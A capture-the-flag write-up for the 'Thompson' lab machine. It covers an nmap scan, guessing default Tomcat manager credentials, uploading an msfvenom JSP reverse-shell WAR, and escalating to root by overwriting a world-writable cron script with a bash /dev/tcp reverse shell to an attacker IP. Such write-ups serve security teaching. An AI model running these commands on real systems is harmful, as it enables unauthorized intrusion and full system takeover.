<p align="center">
  
</p>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Thompson</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code>sonyahack1</code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>09.04.2026</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy 🟢</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td> Web | PrivEsc | Password Attack | Linux </td>
  </tr>
  <tr>
    <td align="left" ><b>🛠️ Tools</b></td>
    <td> nmap | pspy | python | netcat | msfvenom </td>
  </tr>
  <tr>
    <td align="left" ><b>💀 Objectives</b></td>
    <td>
	<code>user.txt</code><br>
	<code>root.txt</code><br>
   </td>
  </tr>

</table>

</div>

## Attack Flow

- [Initial Access](#initial-access)
- [Discovery (nmap)](#discovery-nmap)
- [Credential Access](#credential-access)
- [foothold](#foothold)
- [Discovery (process)](#discovery-process)
- [Privilege Escalation (cron)](#privilege-escalation-cron)

<h2 align="center"> ⚔️ Attack Implemented  </h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th width="18%">Tactics</th>
      <th width="40%">Techniques</th>
      <th width="42%">Description</th>
    </tr>
  </thead>
  <tbody>

   <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1133 - External Remote Services</b></td>
      <td>Access to the internal network via "OpenVPN" connections</td>
   </tr>

   <tr>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>T1059 - Command and Scripting Interpreter</b></td>
      <td>Execution of server-side Java code (JSP/Servlet) via Apache Tomcat</td>
   </tr>

   <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1053.003 - Scheduled Task/Job: Cron</b></td>
      <td>Privilege Escalation via "Cron Job" Misconfiguration</td>
   </tr>

   <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1110.001 - Brute Force: Password Guessing</b></td>
      <td>Manual credential brute forcing to identify a valid pair</td>
   </tr>

   <tr>
      <td rowspan="3" align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1046 - Network Service Discovery</b></td>
      <td>Port scanning discovery of exposed web resources</td>
   </tr>

   <tr>
      <td align="left"><b>T1057 - Process Discovery</b></td>
      <td>Detection of a potentially dangerous "cron job" process</td>
   </tr>

   <tr>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>Identification of the "id.sh" file</td>
   </tr>

   <tr>
      <td align="left"><b>TA0008 - Lateral Movement</b></td>
      <td align="left"><b>T1210 - Exploitation of Remote Services</b></td>
      <td>Exploitation of internal service to gain access to the system</td>
   </tr>

   <tr>
      <td align="left"><b>TA0009 - Collection</b></td>
      <td align="left"><b>T1005 - Data from Local System</b></td>
      <td>The "user" and "root" flags have been collected</td>
   </tr>

   <tr>
      <td rowspan="2" align="left"><b>TA0011 - Command and Control</b></td>
      <td align="left"><b>T1095 - Non-Application Layer Protocol</b></td>
      <td>Reverse TCP shell established via "netcat"</td>
   </tr>

   <tr>
      <td align="left"><b>T1105 - Ingress Tool Transfer</b></td>
      <td>Transfer of the "pspy" utility to the target system</td>
   </tr>

  </tbody>
</table>

</div>

<h2 align="center"> 📝 Report </h2>

> [!IMPORTANT] `Initial access` to the internal lab network was established via a provided `OpenVPN configuration file (.ovpn)`, representing a simulated access path consistent with
> `MITRE ATT&CK technique` - `T1133 (External Remote Services)`. Subsequent `ATT&CK` mappings focus on actions performed `after internal network access was established`.

### Initial Access

> We gain access to the target's internal network via an `OpenVPN connection`:

```bash

sudo openvpn eu-west-1-sonyahack1-regular.ovpn

```

<p align="center">
 
</p>

### Discovery (nmap)

> We begin by gathering information about the target. First, we perform a `port scan` using the following script:

```bash

#!/usr/bin/env bash

set -euo pipefail

ip="${1:-}"

if [[ -z "$ip" ]]; then
  echo "Usage: $0 <ip>"
  exit 1
fi

echo "[*] Scanning all ports on $ip"

open_ports=$(sudo nmap -p- --open --min-rate=1000 -T4 "$ip" | awk -F/ '/^[0-9]+\/tcp/ {print $1}' | paste -sd, -)

if [[ -z "$open_ports" ]]; then
  echo "[!] No open TCP ports found on $ip"
  exit 0
fi

echo "[+] Open ports: $open_ports"
echo "[*] Running service scan"

sudo nmap -sVC -vv -p"$open_ports" "$ip"

```

> The script operates in `two stages`:

- `1` it first identifies open ports on the target;
- `2` and then enumerates the services running on those ports.

```bash

./nmap_scan.sh 10.81.151.160

[*] Scanning all ports on 10.81.151.160
[+] Open ports: 22,8009,8080
[*] Running service scan

```

<p align="center">
 
</p>

> The scan revealed the following open ports:

- `22` - service used for `SSH connections`;
- `8009` - `Apache JServ Protocol 1.3`, used for communication between Apache HTTP Server and Apache Tomcat;
- `8080` - `Apache Tomcat 8.5.5` web server;

> Let us open the page in a browser on port `8080`:

<p align="center">
 
</p>

> We see the default `Apache Tomcat` web server page.

### Credential Access

>[!IMPORTANT]
> `Apache Tomcat` is a Java application server designed specifically to handle dynamic content generated using `Java Servlets (Java classes)` and `JSP (JavaServer Pages)`.

> If we gain access to the application management panel on the server, we will be able to manage applications: `deploy`, `start`, and `delete` them.

<p align="center">
 
</p>

> However, the server is protected by an `authentication form`.

> We search `Google` for default login credentials and find a `standard set of usernames and passwords`:

<p align="center">
 
</p>

> Using a `Brute Force` approach, we discover a valid pair: `tomcat`:`s3cret` and log in to the `Apache Tomcat application manager`:

<p align="center">
 
</p>

### foothold

> Scrolling down, we find the `WAR file to deploy` section, which allows `uploading a WAR file`:

<p align="center">
 
</p>

> [!IMPORTANT]
> `WAR (Web Application Archive)` is an archive format used to package `Java web applications` for deployment on an `Apache Tomcat` application server. It may contain all components of
> a web application: `JSP files`, `servlets`, `HTML pages`, `static resources`, and `configuration files`.

> This represents our direct attack vector, as `the server will trust any ".war" file we upload`, which leads to `Remote Code Execution (RCE)`.

> To gain access to the system, we generate a `.war` file using `msfvenom`:

```bash

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.221.187 LPORT=4141 -f war -o shell.war

```

<p align="center">
 
</p>

> We return to the application manager and, in the `WAR file to deploy` section, upload our generated `.war` file:

<p align="center">
 
</p>

> We verify that our file appears in the list of applications:

<p align="center">
 
</p>

> Next, we start a listener using `netcat` and execute our file:

```bash

nc -lvnp 4141

```

<p align="center">
 
</p>

> Great, we have `gained access` to the system. We perform `basic Enumeration` and find the `first flag (user.txt)` in the home directory of the user `jack`. We have sufficient privileges to read it:

<p align="center">
 
</p>

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 user.txt</b><br/>
      <code>39400c90bc683a41a8935e4719f181bf</code>
    </td>
  </tr>
</table>

</div>

### Discovery (process)

> In the same directory, we notice an interesting executable file named `id.sh`. Let us examine its contents:

<p align="center">
 
</p>

> When executed, the script runs the `id` command and writes its output to a file named `test.txt`. Let us check the contents of test.txt:

<p align="center">
 
</p>

> The output of the `id` command indicates that it was executed as the `root user`. Most likely, the `id.sh` script is being run periodically via `cron`:

> We upload a real-time process monitoring tool, `pspy`, to the target system to capture the execution of cron jobs:

<p align="center">
 
</p>

> We run it and wait. After some time, we observe a process with `UID 0 (root)` executing the `id.sh` script:

<p align="center">
 
</p>

### Privilege Escalation (cron)

> We check the permissions of `id.sh` again and see that it has `rwx` permissions for `all users`, meaning `we can overwrite it`:

<p align="center">
 
</p>

> We overwrite the script with a `reverse shell` command:

```bash

echo -e '#!/bin/bash\nbash -c '\''exec bash -i >& /dev/tcp/192.168.221.187/4242 0>&1'\''' > id.sh

```

> On a second terminal, we start a `netcat` listener and wait:

```bash

nc -lvnp 4242

```

<p align="center">
 
</p>

> After a short time, `the scheduled task executes and establishes a reverse shell connection to our system`:

> We navigate to the `/root` directory and retrieve the `final flag`:

<p align="center">
 
</p>

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 user.txt</b><br/>
      <code>d89d5391984c0450a95497153ae7ca3a</code>
    </td>
  </tr>
</table>

</div>

> System is pwned!

